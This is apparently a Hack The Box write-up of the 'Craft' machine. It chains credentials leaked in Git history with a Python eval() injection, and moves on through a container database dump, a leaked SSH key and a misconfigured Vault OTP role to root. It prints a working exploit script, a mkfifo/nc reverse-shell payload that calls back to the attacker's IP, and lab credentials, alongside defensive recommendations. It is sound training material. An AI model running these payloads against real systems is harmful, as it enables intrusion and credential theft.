# Craft — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟡 Medium
**OS:** Linux
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · Subdomain enumeration (`api.craft.htb`, `gogs.craft.htb`) · Mining **Gogs** commit history → leaked credentials + **code injection via `eval()`** in a REST endpoint (`abv` field) · Pivoting to an internal database (`pymysql`) by transferring a script over `base64` · Credential reuse → private repo with a **leaked SSH key** · Password reused as the key's passphrase → **HashiCorp Vault** with an SSH OTP role (`root_otp`) → root
**Language:** English — [🇪🇸 Versión en español](./Craft_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [Enumeration — subdomains and Gogs](#2-enumeration--subdomains-and-gogs)
3. [Initial access — code injection via `eval()`](#3-initial-access--code-injection-via-eval)
4. [Getting a shell](#4-getting-a-shell)
   - [Privilege escalation — from a container to root via Vault](#privilege-escalation--from-a-container-to-root-via-vault)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)
8. [Attack flow](#8-attack-flow)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.78.231
```

> 🛠️ **`ping`** — checks host availability via ICMP. A TTL of **63** (starting from 64) → **Linux**.


Full TCP port scan:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.78.231
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — a full SYN scan of all 65535 ports: `-sS` (stealthy), `-Pn` (ignore ping status), `--min-rate 5000` (speeds up sending), `--open` (only open ports), `-n` (no DNS resolution).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — a custom script that summarizes Nmap's output: IP, TTL, estimated OS, and a port list ready for the next `-p`.


Version and default-script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p22,443,6022 -oN Ports 10.129.78.231
```

> 🛠️ **`-sCV`** combines `-sC` (Nmap's default scripts) with `-sV` (service version detection).



```
443/tcp  open  ssl/http  nginx 1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/...
6022/tcp open  ssh       Golang x/crypto/ssh server (protocol 2.0)
```

> 💡 Three ports: **22** (standard SSH), **443** (HTTPS, certificate issued for `craft.htb`), and **6022** — an SSH server implemented in **Golang**, not OpenSSH. That last port is the characteristic fingerprint of **Gogs** (or Gitea), which exposes its own SSH server for git operations, separate from the system's SSH.

## 2. Enumeration — subdomains and Gogs

The site on port 443 explains the application's purpose:



```
Craft aims to be the largest repository of US-produced craft brews accessible
over REST. [...] check out our API!
```

We locate two additional subdomains from the certificate/vhost enumeration:


```
api.craft.htb
gogs.craft.htb
```

We add them to `/etc/hosts`:



`gogs.craft.htb` hosts a **Gogs** instance (a lightweight self-hosted Git server written in Go — hence port 6022) with a public repository:



```
Craft / craft-api — An API for IPA's.
```

### Why check the commit history, not just the current code?

A Git repository isn't just its current state — it **keeps every prior version** of every file, readable by anyone with read access to the repo, and that includes any secret that was ever committed, even if a later commit "fixed" it. Reviewing the full history is, in practice, reviewing *every* version of the code that ever existed, not just the current one.

```bash
# inside Gogs' UI: Commit History
```


Two commits stand out: **"add test script"** and **"Add fix for bogus ABV values"**.

## 3. Initial access — code injection via `eval()`

### The test commit: leaked credentials

The **"add test script"** commit adds `tests/test.py`, which hardcodes test credentials to authenticate against the API:


```python
response = requests.get('https://api.craft.htb/api/auth/login',
                         auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
```

> 💡 It's extremely common for test scripts to use real credentials "temporarily" during development — and for those credentials to never get rotated, even once the script stops being actively used.

### The "fix" commit: a vulnerability introduced by accident

The **"Add fix for bogus ABV values"** commit modifies the brew-creation endpoint to "validate" the `abv` (alcohol by volume) field:



```python
# make sure the ABV value is sane.
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

> 💡 **Why does this injection work?** Python's `eval()` takes a text string and runs it as actual Python code. The developer meant to compare `abv` with `1` numerically, but instead of converting the value with `float(request.json['abv'])` and comparing it directly, they **inserted it into a string** (`'%s > 1' % abv`) that then gets evaluated. Since `abv` is a JSON field entirely controlled by the attacker, any text placed there runs as-is as Python code — not just numbers. For example, sending `abv = "__import__('os').system('id')"` makes the resulting evaluated expression literally `__import__('os').system('id') > 1`, which executes the system command as a side effect before even attempting to compare its return value.

With the credentials leaked in the history, we build a script to authenticate and exploit the injection:

```python
response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
token = json.loads(response.text)['token']

brew_dict['abv'] = '__import__("os").system("ping -c 1 10.10.15.31")'
headers = {'X-Craft-API-Token': token, 'Content-Type': 'application/json'}
requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json.dumps(brew_dict))
```

> 🛠️ **`__import__("os").system(...)`** — a way to pull in the `os` module and run a system command without a traditional `import` statement (not valid inside an `eval` expression); the standard pattern for achieving command execution through an `eval()` injection.


We confirm command execution with an ICMP listener:

```bash
sudo tcpdump -i tun0 icmp -n
```

> 🛠️ **`tcpdump -i tun0 icmp -n`** — captures only ICMP (ping) packets on the HTB VPN interface, with no name resolution (`-n`); a reliable way to confirm blind command execution (no visible output) using a ping as a "beacon."



## 4. Getting a shell

We swap the payload for a full reverse shell:

```python
brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.31 443 >/tmp/f")'
```

> 🛠️ **`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <port> > /tmp/f`** — the classic named-pipe (FIFO) reverse shell pattern: builds a bidirectional channel between `nc` and an interactive shell, without relying on `nc -e` (disabled by default in many modern distros for security reasons).



```
[+] Waiting for connections on :::443: Got connection
$ whoami
root
$ ip a
172.20.0.6/16 ...
```



> 💡 We're `root`, but the internal IP (`172.20.0.6`) reveals we're inside a **Docker container**, not the real host — full compromise of the machine is still pending. Being root inside a container is not the same as being root on the host running it.

### Pivoting to the internal database

```bash
ls /opt/app
cat dbtest.py
```


```python
connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                              user=settings.MYSQL_DATABASE_USER,
                              password=settings.MYSQL_DATABASE_PASSWORD,
                              db=settings.MYSQL_DATABASE_DB,
                              cursorclass=pymysql.cursors.DictCursor)
```

> 💡 The dev team left a database connection test script (`dbtest.py`) inside the container, using the application's real credentials (imported from `craft_api.settings`). There's no need to even know those credentials directly — just run the already-existing script, which uses them internally.

```bash
python3 dbtest.py
```



We edit a local copy of the script to list every table (swapping `fetchone()` for `fetchall()`, essential to get more than one result):

```python
sql = "SHOW TABLES"
cursor.execute(sql)
result = cursor.fetchall()
```

> 🛠️ **`cursor.fetchall()` vs `cursor.fetchone()`** — `fetchone()` only returns the first row of the result; for full listings (like `SHOW TABLES` or a `SELECT *`), `fetchall()` is essential, since it returns every row as a list.


### Transferring the script with no file channel

With no `scp`, `wget`, or reachable HTTP server from the container, we base64-encode the script to paste it directly into the reverse shell:

```bash
base64 db.py -w0 | xclip -sel clip
```

> 🛠️ **`base64 -w0`** — encodes the file to base64 with no line wraps (`-w0`, *wrap 0*), producing a single line pasteable into any terminal; `xclip -sel clip` copies it directly to the system clipboard.


```bash
echo "<base64>" | base64 -d > test.py
```

> 🛠️ **`echo "..." | base64 -d > file`** — the standard "bare-hands" file transfer technique in a reverse shell with no extra tools: paste the encoded content and decode it directly on the target.


```bash
python3 test.py
```


```
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
```

We repeat the process to dump the `user` table:

```python
sql = "select * from user"
```



```bash
python3 test.py
```



```
dinesh:4aUh0A8PbVJxgd
ebachman:llJ77D8QFkLPQB
gilfoyle:ZEU3N8WNM2rh4T
```

## Privilege escalation — from a container to root via Vault

With `gilfoyle`'s credentials, we log into Gogs — the same account might be reused elsewhere:


Their profile has a **private** repository:


```
gilfoyle / craft-infra — Craft infrastructure
```

The repo holds the project's full infrastructure, including a `.ssh` folder:


> 💡 The classic mistake has been made here: **committing a private SSH key** inside the infrastructure repo itself — a "private" repo in Gogs is still readable by any account granted access to it, and once that account is compromised, the secret is just as exposed as if the repo were public.

We download the key and use it to connect:



```bash
chmod 600 id_rsa
ssh -i id_rsa gilfoyle@10.129.78.231
```

> 🛠️ **`chmod 600`** — restricts the private key to owner-only read/write; OpenSSH refuses keys with more permissive modes.



The key is passphrase-protected. We try `gilfoyle`'s password, already obtained from the database:



```
gilfoyle@craft:~$
```

> 💡 The same password reused as the SSH key's **passphrase** — this time, on the **real host** (`craft.htb`), not the container. Reusing credentials across different systems and authentication mechanisms (web login, SSH key passphrase) is one of the most common escalation patterns in both CTF boxes and real-world environments.

```bash
ls -la
```



```
-rw------- 1 gilfoyle gilfoyle  36 .vault-token
-r-------- 1 gilfoyle gilfoyle  33 user.txt
```

### What is HashiCorp Vault, and why is a `.vault-token` so sensitive?

**HashiCorp Vault** is a centralized secrets manager: instead of every application/user storing passwords, API keys, or certificates on their own, Vault stores them encrypted and hands them out on demand to whoever is authorized, via **tokens** and **policies** that define what each token can do. The **`.vault-token`** file in a user's home directory is the credential already authenticated against Vault — if that token is still valid and broadly scoped, it's equivalent to having every secret that token can read.

```bash
vault
```

> 🛠️ **`vault`** (no arguments) — shows the CLI's available subcommands: `read`, `write`, `login`, `ssh`, etc. Useful for quickly getting your bearings when you don't already know what secrets engines an instance has enabled.



The `craft-infra` repo also documents Vault's configuration:



```bash
cat secrets.sh
```


```bash
vault secrets enable ssh
vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

### What is Vault's OTP SSH engine, and why does it hand over root directly?

Vault's **SSH secrets engine**, in **OTP (One-Time Password)** mode, works like this: Vault deploys a small agent (`vault-ssh-helper`) on target machines that intercepts SSH's PAM authentication. When an authorized client requests a credential for a specific **role** (here, `root_otp`), Vault generates a one-time password, hands it to the client, and simultaneously tells the agent on the target machine that this OTP is valid for that session. The user then uses that OTP as the password for a normal SSH login — with no need to ever know a real `root` password, and with no real password left behind to rotate or leak.

The `root_otp` role is configured with `default_user=root` (logs in as root) and `cidr_list=0.0.0.0/0` (no source restriction) — any Vault token with permission to use that role effectively gets on-demand root access.

```bash
vault ssh -role root_otp root@127.0.0.1
```

> 🛠️ **`vault ssh -role <role> <user>@<host>`** — requests an SSH credential from Vault using the given role and, with the current user's already-cached token (`.vault-token`), automates the whole flow: generates the OTP and launches the corresponding `ssh` command.



```
OTP for the session is: 008dce24-e4df-54fb-16f8-097c2acaf768
Password: <OTP>
root@craft:~# whoami
root
```

## 5. Post-exploitation and flags

A root shell confirmed on the real host — full system compromise.

> 🔒 The available screenshots don't include an explicit read of `user.txt`/`root.txt`'s content or path; they aren't documented here since they can't be verified against the captures, following the same policy of not handing the answer to anyone practicing this box.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Git history with hardcoded test credentials | "add test script" commit | Leaks valid API credentials |
| User input validated via `eval()` over a concatenated string | "Add fix for bogus ABV values" commit (`brew.py`) | Python code injection → RCE |
| Database credentials reusable by any process inside the container | `settings.py` / `dbtest.py` | Full user table dump after RCE |
| Private SSH key committed to a repository (even a private one) | `craft-infra/.ssh/id_rsa` | Direct access to the real host once that account is compromised |
| Password reused as an SSH key passphrase | `gilfoyle` account | Makes using the leaked key trivial, no need to break the encryption |
| Vault SSH-OTP role for root with no source restriction | `ssh/roles/root_otp` (`cidr_list=0.0.0.0/0`) | Any token with permission over that role gets on-demand root access |

## Defensive recommendations

- Never store credentials, even "test" ones, in source code or version control history; use environment variables or a secrets manager from the very first commit.
- Never run `eval()`/`exec()` on user input; validate and convert types explicitly and safely (`float()`, direct numeric comparisons).
- Apply least privilege to the database credentials used by the application, and rotate them if they may have been exposed inside a compromised container.
- Never commit private SSH keys, tokens, or any secret to a repository, not even one marked private — if it needs sharing, use a secrets manager.
- Don't reuse passwords across different systems and authentication mechanisms (web accounts, SSH key passphrases, etc.).
- Scope Vault roles to the minimum necessary: restrict `cidr_list`, require extra approval (e.g. `sudo` or MFA) for roles that grant root access, and periodically audit active tokens and their attached policies.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| `enum-nmap` | Custom script that summarizes Nmap's output |
| **Gogs/Gitea** | Lightweight self-hosted Git server (Go); exposes its own SSH, hence the non-standard port |
| **Commit history** | Retains prior code versions; can reveal secrets already "fixed" in later commits |
| **`eval()` injection** | Running any string passed to `eval()` as Python code; critical when that string includes unsanitized user input |
| `__import__("os").system(...)` | Pattern for running system commands inside an `eval()` expression without using `import` |
| `tcpdump -i <iface> icmp -n` | Captures ICMP packets; useful as a beacon to confirm blind RCE |
| `mkfifo` + `nc` (reverse shell) | Builds a bidirectional channel with a named pipe when `nc -e` isn't available |
| `pymysql` | Python library for connecting to MySQL; here, reused from a test script already present in the container |
| `cursor.fetchall()` | Retrieves every row of a SQL query, instead of just the first (`fetchone()`) |
| `base64 -w0` + `echo ... \| base64 -d` | "Bare-hands" file transfer in a shell with no transfer tools available |
| **Credential reuse** | Escalation pattern: the same password works across different systems or mechanisms (web login, SSH passphrase) |
| **Leaked SSH key in a repo** | Common vulnerability: a private key accidentally committed, recoverable by anyone with read access to the repo |
| **HashiCorp Vault** | Centralized secrets manager; hands out credentials on demand per policies and tokens |
| `.vault-token` | A token already authenticated against Vault, cached in a user's home dir; equivalent to their current Vault permissions |
| **Vault's OTP SSH engine** | Generates one-time passwords for SSH login instead of distributing a fixed real password |
| `vault ssh -role <role> <user>@<host>` | Requests an SSH credential via Vault using a specific role and automatically launches the connection |

## 8. Attack flow

